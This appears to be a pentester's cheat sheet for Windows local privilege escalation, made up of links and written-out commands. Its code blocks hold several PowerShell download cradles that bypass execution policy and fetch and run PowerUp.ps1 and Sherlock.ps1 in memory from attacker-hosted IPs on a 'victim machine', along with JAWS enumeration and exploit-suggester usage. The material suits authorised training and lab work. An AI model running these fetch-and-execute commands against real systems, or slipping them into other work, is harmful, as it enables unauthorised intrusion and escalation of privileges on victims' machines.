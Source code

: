 ###Service
```
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
```


https://github.com/gtworek/Priv2Admin

https://github.com/frizb/Windows-Privilege-Escalation
AMSI PATCH
https://recipeforroot.com/advanced-powerup-ps1-usage/

###powershell with Priv checker
```
powershell -ep bypass
PS C:\> Import-Module PowerUp.ps1

PS C:\> . .\PowerUp.ps1
```
![image](https://user-images.githubusercontent.com/9059079/118397345-7f3fdd80-b621-11eb-805e-df3757f8e371.png)

```


PS C:\Users\merlin\Desktop> PS C:\Users\merlin\Desktop> powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
PS C:\users\merlin\appdata\local\temp> iex(new-object net.webclient).downloadstring('http://10.10.14.5/Sherlock.ps1')
PS C:\users\merlin\appdata\local\temp> Find-AllVulns

c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/PowerUp.ps1') ; Invoke-AllChecks"

c:\>powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/powerup.ps1') ; Invoke-AllChecks"

c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/Sherlock.ps1') ; Find-AllVulns"

If you have your ps1 file downloaded to the victim machine then run using this
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"

c:\>powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
```
#
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.124:8111/Sherlock.ps1'); Find-AllVulns

Post Exploit Enum Scripts:
JAWS - Just Another Windows (Enum) Script
```
\Inetpub>icacls wwwroot
```
Usage:

Run from within CMD shell and write out to file.

powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://10.10.15.24/jaws.ps1','C:\Windows\temp\jaws.ps1')
CMD C:\Windows\temp> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
Run from within CMD shell and write out to screen.

CMD C:\temp> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1
Run from within PS Shell and write out to file.

PS C:\temp> .\jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
WinPrivCheck by ihack4falafel

Sherlock – New one is Watson
```
PS C:\inetpub\drupal-7.54> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.124:8000/Sherlock.ps1') ; Find-AllVulns
C:\inetpub\drupal-7.54>powershell.exe -ExecutionPolicy Bypass -File jaws-enum.ps1
```
PentestMonkey Windows-privesc-check is standalone executable that runs on Windows systems. It tries to find misconfigurations that could allow local unprivileged users to escalate privileges to other users or to access local apps (e.g. databases).

Exploit Suggester For this one, we need to grab the output of systeminfo and then run it against the script. -- Update the database: ./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2018-10-28-mssb.xlsx --systeminfo winsysinfo.txt
OR
-- If we only know about the Operating System name and not much about the hot-fixes, then possible exploits for an operating system can be used without hotfix data
```
./windows-exploit-suggester.py --database 2018-10-28-mssb.xlsx --ostext 'windows server 2008 r2'
```
```
wmic qfe get Caption,Description,HotFixID,InstalledOn

https://guide.offsecnewbie.com/privilege-escalation/windows-pe
```
